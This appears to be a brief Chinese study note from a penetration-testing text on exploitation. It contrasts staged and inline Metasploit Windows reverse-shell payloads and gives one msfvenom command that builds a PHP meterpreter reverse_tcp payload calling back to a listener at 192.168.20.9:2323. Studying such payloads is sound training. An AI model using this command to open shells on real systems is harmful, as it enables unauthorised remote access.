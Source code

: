 # 第八章 Exploition

## Paylaod

- _windows/shell/reverse_tcp_ 
    这种被称为**staged shell**，相当于功能齐全但是精简版的shell
- _windows/shell_reverse_tcp_
    这种被称为inline 是完全的shell
    
## PHP venom
`msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=2323 -f raw`

